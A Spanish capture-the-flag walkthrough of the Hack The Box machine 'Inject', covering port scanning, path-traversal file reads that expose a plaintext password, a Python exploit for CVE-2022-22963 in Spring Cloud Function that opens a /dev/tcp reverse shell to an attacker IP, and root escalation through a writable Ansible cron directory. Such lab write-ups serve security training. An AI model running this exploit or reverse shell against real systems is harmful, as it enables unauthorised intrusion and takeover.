

<h3 style="text-align:center">DESCRIPCIÓN</h3><hr>

Inject es una máquina Linux de dificultad fácil que presenta un sitio web con funcionalidad de carga de archivos vulnerable a la inclusión local de archivos (LFI) Lo
cal File Inclusion. Explotando la vulnerabilidad LFI, los archivos del sistema pueden ser enumerados, revelando que la aplicación web utiliza una versión específica del módulo
`Spring-Cloud-Function-Web` susceptible a `CVE-2022-22963`. La explotación de esta vulnerabilidad garantiza un punto de apoyo inicial como usuario franco. El movimiento later
al se consigue mediante la enumeración de archivos, que revela una contraseña en texto plano para `phil`. Un cronjob ejecutándose en la máquina puede ser explotado para ejecut
ar un playbook malicioso de `Ansible`, obteniendo finalmente una reverse shell como usuario `root`.


<h3 style="text-align:center">INDICE</h3><hr>

- [Reconocimiento](#fase-de-reconocimiento)
    - [Enumeración de puertos](#enumeracion-de-puertos)
    - [Enumeración de servicios](#enumeracion-de-servicios)
- [Explotación](#explotacion)
    - [Reverse Shell](#reverseshell)
- [Escalada de privilegios](#escalada-de-privilegios)
- [Autores y referencias](#autores-y-referencias)


<h3 style="text-align:center" id="fase-de-reconocimiento">RECONOCIMIENTO</h3><hr>

El objetivo principal de la etapa de reconocimiento es obtener una visión general de la infraestructura, sistemas, aplicaciones y posibles puntos débiles de la organización o sistema que se va a someter a la prueba de penetración. Esta información es esencial para planificar y ejecutar el resto del proceso de pentesting de manera más efectiva.

Durante la etapa de reconocimiento, el equipo de pentesting puede realizar diferentes acciones y técnicas, que incluyen:

1.Búsqueda de información pública: Se recopila información de dominios, subdominios, direcciones IP, registros de DNS, información de contacto de la empresa, etc., que está disponible públicamente a través de fuentes como el sitio web de la empresa, registros WHOIS, redes sociales, motores de búsqueda, entre otros.

2.Escaneo de red: Se utilizan herramientas de escaneo de puertos y servicios para identificar los sistemas en línea y los puertos abiertos en el objetivo. Esto ayuda a tener una idea de la infraestructura de red y los servicios disponibles.

3.Enumeración de servicios: Una vez identificados los servicios y puertos abiertos, se intenta obtener información más detallada sobre los servicios, como las versiones de software, para determinar si existen vulnerabilidades conocidas asociadas con esos servicios.

4.Búsqueda de subdominios y directorios ocultos: Se busca información adicional sobre posibles subdominios, directorios ocultos o páginas web no enlazadas públicamente, lo que podría revelar puntos de entrada adicionales o información sensible.

5.Análisis de arquitectura de red: Se investiga la topología de la red para comprender la relación entre diferentes sistemas y cómo se conectan, lo que ayuda a identificar posibles rutas para movimientos laterales.

6.Búsqueda de vulnerabilidades conocidas: Se investigan bases de datos de vulnerabilidades conocidas y bases de datos de exploits para identificar posibles vulnerabilidades que puedan existir en el software o servicios utilizados por el objetivo.

- Lo primero que vamos hacer es un ping a la maquina victima ping -c 1 10.10.11.204 ping: Es el comando utilizado para enviar solicitudes de eco (ping) a una dirección IP específica para verificar la conectividad de red y la latencia de la conexión. -c 1: Es una opción que se utiliza para especificar el número de solicitudes de eco que se enviarán. En este caso, se envía solo una solicitud (-c 1). 10.10.11.204: Es la dirección IP del host o máquina que será objeto del comando ping.

```ruby
❯ ping -c 1 10.10.11.204
PING 10.10.11.204 (10.10.11.204) 56(84) bytes of data.
64 bytes from 10.10.11.204: icmp_seq=1 ttl=63 time=168 ms

--- 10.10.11.204 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 168.453/168.453/168.453/0.000 ms
```
El TTL---> 63 indica que es una máquina Linux

Con whichSytem.py nos arroja ante que nos estamos enfrentando con solo poner la dirección ip.
```ruby
❯ whichSystem.py 10.10.11.204
10.10.11.204 (ttl -> 64): Linux

```

Si quieren esa utilidad la guardan en el -usr-bin
```python
#!/usr/bin/python3
#coding: utf-8

import re, sys, subprocess

# python3 wichSystem.py 10.10.10.188 

if len(sys.argv) != 2:
    print("\n[!] Uso: python3 " + sys.argv[0] + " <direccion-ip>\n")
    sys.exit(1)

def get_ttl(ip_address):

    proc = subprocess.Popen(["/usr/bin/ping -c 1 %s" % ip_address, ""], stdout=subprocess.PIPE, shell=True)
    (out,err) = proc.communicate()

    out = out.split()
    out = out[12].decode('utf-8')

    ttl_value = re.findall(r"\d{1,3}", out)[0]

    return ttl_value

def get_os(ttl):

    ttl = int(ttl)

    if ttl >= 0 and ttl <= 64:
        return "Linux"
    elif ttl >= 65 and ttl <= 128:
        return "Windows"
    else:
        return "Not Found"

if __name__ == '__main__':

    ip_address = sys.argv[1]

    ttl = get_ttl(ip_address)

    os_name = get_os(ttl)
	print("%s (ttl -> %s): %s" % (ip_address, ttl, os_name))
```

<h3 style="text-align:center" id="enumeracion-de-puertos">ENUMERACIÓN DE PUERTOS</h3><hr>

Realizamos un escaneo de puertos usando la herramienta `nmap`:

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.204 -oG scanPorts`

Veamos el significado de cada opción utilizada en el comando:

- `nmap`: Es el comando para ejecutar la herramienta de escaneo de puertos `nmap`.
    
- `-p-`: Esta opción indica que se deben escanear todos los puertos, es decir, desde el puerto 1 hasta el puerto 65535.
    
- `--open`: Filtra los resultados del escaneo para mostrar solo los puertos que están abiertos, es decir, aquellos que responden a la solicitud de escaneo.
    
- `-sS`: Indica un escaneo de tipo “SYN scan”. Este tipo de escaneo envía paquetes SYN (sincronización) a los puertos y analiza las respuestas para determinar si están abiertos, cerrados o filtrados por firewall.
    
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes. En este caso, se envían al menos 5000 paquetes por segundo.
    
- `-vvv`: Habilita el modo de salida muy detallado, lo que significa que se mostrarán niveles de verbosidad muy altos para obtener información detallada del escaneo.
    
- `-n`: Indica que no se realice la resolución de DNS para las direcciones IP, lo que acelera el escaneo.
    
- `-Pn`: Esta opción indica que no se realice el “ping” para determinar si los hosts están en línea o no. Se ignoran las respuestas del ping y se escanea directamente.
    
- `10.10.11.204`: Es la dirección IP del objetivo que será escaneado.
    
- `-oG allPorts`: Especifica que se debe guardar la salida del escaneo en un formato “grepable” (formato de texto plano) con el nombre de archivo “allPorts”.

```ruby
❯ nmap -p- --open -sS --min-rate 5000 -n -vvv -Pn 10.10.11.204 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 20:57 -05
Initiating SYN Stealth Scan at 20:57
Scanning 10.10.11.204 [65535 ports]
Discovered open port 22/tcp on 10.10.11.204
Discovered open port 8080/tcp on 10.10.11.204
Completed SYN Stealth Scan at 20:58, 15.41s elapsed (65535 total ports)
Nmap scan report for 10.10.11.204
Host is up, received user-set (0.17s latency).
Scanned at 2024-02-21 20:57:47 -05 for 15s
Not shown: 62704 closed tcp ports (reset), 2829 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.56 seconds
           Raw packets sent: 75439 (3.319MB) | Rcvd: 67823 (2.713MB)
```

Escaneamos al objetivo con los scripts básicos de reconocimiento de nmap, apuntando a los puertos abiertos en busca de más información. Los resultados incluirán información sobre los servicios que se están ejecutando en los puertos escaneados y sus versiones correspondientes.

`nmap -sCV -p21,80 10.10.11.204 -oN targeted`

```ruby
❯ nmap -sCV -p22,8080 10.10.11.204 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 20:59 -05
Nmap scan report for 10.10.11.204 (10.10.11.204)
Host is up (0.17s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ca:f1:0c:51:5a:59:62:77:f0:a8:0c:5c:7c:8d:da:f8 (RSA)
|   256 d5:1c:81:c9:7b:07:6b:1c:c1:b4:29:25:4b:52:21:9f (ECDSA)
|_  256 db:1d:8c:eb:94:72:b0:d3:ed:44:b9:6c:93:a7:f9:1d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.95 seconds
                                                              
```

- Tenemos el puerto 22 abierto SSH pero como la versión es mayor a la 7.7 no  realizar enumeración de usuarios, no tenemos credenciales de ingreso
- Tenemos el puerto 8080, lo que nos arroja indica que es una interfaz web


<h3 style="text-align:center" id="enumeracion-de-servicios">ENUMERACIÓN DE SERVICIOS</h3><hr>
- Vemos lo que tiene la pagina web.


- Tenemos un campo de subida de archivos, creamos un archivo test.text que intentaremos subir y usaremos burpsuite para ver el comportamiento.


- Lo enviamos al repeater.
- Al enviarlo nos dice que solo se deben usar imágenes, vamos intentar varias cosas:
- Cambiamos la extensión del archivo a .png, nos permite subir el archivo, y nos muestra una ruta donde se aloja el /show_image?img=test.jpg suena a un Local File Inclusion 

- test.png.php intentamos esto porque si esta mal diseñado puede aceptarlo. 
- También cambiamos el content-Type a imagen y tampoco funciona. 


- Realizamos una petición get con curl para ver la respuesta :

```ruby
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=test.jpg" | jq
{
  "timestamp": "2024-02-22T03:55:06.646+00:00",
  "status": 500,
  "error": "Internal Server Error",
  "message": "URL [file:/var/www/WebApp/src/main/uploads/test.jpg] cannot be resolved in the file system for checking its content length",
  "path": "/show_image"
}
                                                                                                                                           
```

- En message vemos una ruta, asi que vamos a intentar cargar archivos del sistema devolviéndonos varias rutas atrás.


- Efectivamente tenemos un LFI y un directory listing. 
- Veamos lo usuario existentes: 
```ruby
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../../../etc/passwd" | grep "sh$"
root:x:0:0:root:/root:/bin/bash
frank:x:1000:1000:frank:/home/frank:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```
- Tenemos a root, frank y phil.
- Como tenemos capacidad de listar directorios vamos a ver que tenemos. 
```ruby
curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../../../"
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
- Vemos lo que tiene la raiz y podemos entrar a home y ver que tiene cada usuario. 

- Vemos lo que tiene ese archivo:

```ruby
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../../../home/frank/.m2/settings.xml" | cat -l xml
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ STDIN
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?xml version="1.0" encoding="UTF-8"?>
   2   │ <settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   3   │         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
   4   │   <servers>
   5   │     <server>
   6   │       <id>Inject</id>
   7   │       <username>phil</username>
   8   │       <password>DocPhillovestoInject123</password>
   9   │       <privateKey>${user.home}/.ssh/id_dsa</privateKey>
  10   │       <filePermissions>660</filePermissions>
  11   │       <directoryPermissions>660</directoryPermissions>
  12   │       <configuration></configuration>
  13   │     </server>
  14   │   </servers>
  15   │ </settings>
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
                                                                                                                
```

- Tenemos el usuario y una contraseña que podemos probar para ingresar por ssh pero no funciona, igual podría servirnos para cambiar de usuario dentro de la propia máquina victima. 
- Vemos el usuario phil pero no nos deja leer nada.


- Nos guardamos el archivo:
  `curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../../../home/frank/.m2/settings.xml" | cat -l xml > settings.xml`
- Como no podemos listar mucha información lo que haremos es llegar a la carpeta del propio contenido de web.


- Vamos a llegar hasta WebApp y ver lo que tiene. 


- vemos un archivo llamado pom.xml y lo traemos a nuestra maquina `curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../pom.xml" > pom.xml` 
- Vemos el archivo y encontramos algo llamado springframework así que buscamos en la web para ver que es y si existe alguna vulnerabilidad para esto.

<h3 style="text-align:center" id="explotacion">EXPLOTACIÓN</h3><hr>

La fase de explotación en una prueba de penetración (pentesting) es la etapa en la que los profesionales de seguridad intentan activamente aprovechar las vulnerabilidades identificadas en el sistema objetivo. En esta fase, los pentesters intentan explotar debilidades y brechas de seguridad con el objetivo de demostrar la capacidad de un atacante malintencionado para comprometer el sistema.

Aquí hay algunas actividades clave que suelen llevarse a cabo durante la fase de explotación:

Identificación de Vulnerabilidades: Después de completar la fase de escaneo, donde se identifican activos y servicios, se procede a identificar vulnerabilidades en esos servicios y aplicaciones. Esto puede hacerse mediante el uso de herramientas automáticas y análisis manual.

Selección de Objetivos: Con la información sobre las vulnerabilidades disponibles, los pentesters eligen objetivos específicos para intentar explotar. Esto puede incluir sistemas, aplicaciones o servicios específicos que son críticos para la organización.

Desarrollo de Exploits: Los pentesters pueden desarrollar o utilizar exploits existentes para aprovechar las vulnerabilidades identificadas. Un exploit es un conjunto de instrucciones o código diseñado para aprovechar una vulnerabilidad específica y lograr un objetivo, como obtener acceso no autorizado.

Ejecución de Exploits: Una vez que se tiene un exploit listo, se ejecuta contra los objetivos seleccionados. Esto implica intentar activamente aprovechar las vulnerabilidades para lograr un acceso no autorizado, escalada de privilegios u otros objetivos definidos en el alcance del pentesting.

Documentación: Se documentan cuidadosamente todas las actividades de explotación, incluidos los éxitos y los fallos. Esto ayuda a los equipos de seguridad a comprender cómo se podrían haber evitado los exploits y cómo mejorar la postura de seguridad.

<h3 style="text-align:center" id="reverseshell">REVERSE SHELL EXPLOIT</h3><hr>

Este es un script de Python que explota CVE-2022-22963, una vulnerabilidad de ejecución remota de código en Spring Cloud Function que permite a los atacantes ejecutar código arbitrario en un servidor vulnerable. El exploit utiliza el endpoint vulnerable /functionRouter para ejecutar un comando en el servidor objetivo.

```python
#!/usr/bin/python3
import requests
import argparse
import socket, sys, time
from threading import Thread
import os
import base64

def nc_listener():
    os.system("nc -lnvp 4444")

def exploit(url,cmd):
    vulnURL = f'{url}/functionRouter'
    payload = f'T(java.lang.Runtime).getRuntime().exec("{cmd}")'
    body = '.'
    headers = {
        'spring.cloud.function.routing-expression':payload,
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded'
        }
    response = requests.post(url = vulnURL, data = body, headers = headers, verify=False, timeout=5)
    return response

def vuln(code,text):
    resp = '"error":"Internal Server Error"'
    if code == 500 and resp in text:
        print(f'[+] {args.url} is vulnerable\n')
        return True
    else:
        print(f'[-] {args.url} is not vulnerable\n')
        return False

if __name__ == "__main__":
    
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url", dest="url", help="URL of the site with spring Framework, example: http://vulnerablesite.com:8080")
    args = parser.parse_args()
    
    if args.url is None:
        parser.print_help()
        sys.exit(1)
    
    print(f"[+] Target {args.url}\n")
    print(f"[+] Checking if {args.url} is vulnerable to CVE-2022-22963...\n")
    response = exploit(args.url,"touch /tmp/pwned")
    v = vuln(response.status_code,response.text)
    if v == True:
        chk = input("[/] Attempt to take a reverse shell? [y/n]")
        if chk == 'y' or chk == 'Y':
            listener_thread = Thread(target=nc_listener)
            listener_thread.start()
            time.sleep(2)
            attacker_ip=input("[$$] Attacker IP:  ")
            command = f"bash -i >& /dev/tcp/{attacker_ip}/4444 0>&1"
            final_command = 'bash -c {echo,' + ((str(base64.b64encode(command.encode('utf-8')))).strip('b')).strip("'") + '}|{base64,-d}|{bash,-i}'
            exploit(args.url,final_command)
    else:
    	exit(0)
```

- En este exploit esta realizando una peticion por el metodo post para enviarle como cuerpo del mensaje un punto y como cabeceras un payload a spring.cloud.function.routing-expression donde el payload corresponde a T(java.lang.Runtime).getRuntime().exec("{cmd}"), intentaremos realizarlo con curl directamente, o con el mismo exploit.
-  Lo primero es verificar si ejecuta comando así que realizare un ping que apunte a mi maquina y ver si estoy recibiendo traza icmp. 

- Efectivamente estoy recibiendo traza, así que me enviare una shell, lo primero es comprobar si en la maquina victima esta instalado curl, para eso monto un servidor web y me envío una petición get.

- Efectivamente lo tiene instalado, por lo tanto voy a montar un script en bahs para que al realizar la petición interprete el archivo y me envié una shell. 

1. Exportamos el archivo a una ruta /tmp/reverse 

2. Ahora interpretamos ese archivo que ya esta escrito en bahs y nos devuelve la shell. 

- Realizamos un tratamiendo de la TTY:

Tratamiento de la tty

`script /dev/null -c bash`

 ``CTRL+Z``

`stty raw -echo; fg` 

`reset xterm` ---> Enter

 `export TERM=xterm`

 `export SHELL=bash`

 `stty rows 44 columns 184`

- Una ves dentro vamos a probar la contraseña que encontramos de phil. 

- Obtenemos la primera flag

- `lsb_release -a` para ver el codename de la maquina. 


<h3 style="text-align:center" id="escalada-de-privilegios">ESCALADA DE PRIVILEGIOS</h3><hr>

- `id`


- Estamos en el grupo staff, buscamos a que archivos podemos tener acceso

- Vemos una carpeta con tareas automáticas, lo que me puede indicar que se están ejecutando tareas cron.
`systemctl list-timers`  se utiliza para mostrar una lista de temporizadores del sistema gestionados por `systemd`. `systemd` es un sistema de inicio y administración de servicios para sistemas operativos tipo Unix, y proporciona una forma de organizar y gestionar procesos y servicios en el sistema.

Al ejecutar `systemctl list-timers`, obtendrás información sobre los temporizadores activos y programados en el sistema. Cada entrada en la lista incluirá detalles como el nombre del temporizador, su estado (activado o desactivado), el tiempo restante hasta la próxima ejecución, y el servicio asociado si lo hay.


- Vemos tareas donde falta mucho tiempo para ejecutarse, así que crearemos un script para buscar nuevas tareas. 

```ruby
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
	new_process=$(ps -eo user,command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
	old_process=$new_process
done
```


- Estos comandos de Linux parecen estar relacionados con la automatización de tareas utilizando Ansible y algunas operaciones de manipulación de archivos. Aquí hay una explicación de cada uno de ellos:

1. **Primer Comando:**
   
   ```bash
   root /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/
   ```

   - `sleep 10`: Espera 10 segundos antes de ejecutar las siguientes acciones. Puede ser útil para introducir un retraso antes de realizar ciertas operaciones.
   - `rm -rf /opt/automation/tasks/*`: Elimina de manera recursiva y forzada todos los archivos y directorios dentro de `/opt/automation/tasks/`. Este comando limpia el contenido del directorio.
   - `cp /root/playbook_1.yml /opt/automation/tasks/`: Copia el archivo `playbook_1.yml` desde el directorio `/root/` al directorio `/opt/automation/tasks/`.

   En resumen, este comando espera 10 segundos, luego borra el contenido del directorio `/opt/automation/tasks/` y finalmente copia un archivo llamado `playbook_1.yml` desde `/root/` a `/opt/automation/tasks/`.

2. **Segundo Comando:**
   
   ```bash
   root /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
   ```

   - `/usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml`: Ejecuta Ansible de forma paralela utilizando un script llamado `ansible-parallel` ubicado en `/usr/local/bin/`. La expresión `/opt/automation/tasks/*.yml` indica que se deben ejecutar todos los archivos YAML en el directorio `/opt/automation/tasks/` como playbooks de Ansible.

Este comando utiliza Ansible para ejecutar en paralelo los playbooks YAML presentes en el directorio `/opt/automation/tasks/`.

- Teniendo esto en cuenta podemos crear un archivo .yml para ejecutar un comando, pero es importante buscar en la documentación de Ansible si existe una manera de ejecutarlo usando ansible.builtin.systemd
- Si vemos el archivo esta llamado ansible.builtin.systemd


- Buscando en la web vemos una manera de ejecutar comandos:


  - Y como ejemplo tenemos que cambiamos a ansible.builtin.shell y el comando.


- Creamos el archivo y como comando cambiamos la shell a SUID  y como root es quien ejecuta el comando, cambia la shell con permisos SUID y la ejecutamos.

 

- Aquí vemos que cambio a SUID.

- `bash -p` : Para llamar una bahs con altos privilegios. 

<h3 style="text-align:center" id="autores-y-referencias">AUTORES y REFERENCIAS</h3><hr>

Autor del write up: John Osorio (Balthael) <a href="https://app.hackthebox.com/profile/1366059" target="_blank">HTB</a>. Si quieres contactarme por cualquier motivo lo puedes hacer a través de <a href="https://www.instagram.com/joh_sb/" target="_blank">Instagram</a>.

Autor de la máquina:  <em>Palermo & pottm </em>, muchas gracias por la creación de Inject, la disfrute mucho, aquí el link de la máquina <a href="https://app.hackthebox.com/machines/Inject" target="_blank">HTB</a>.
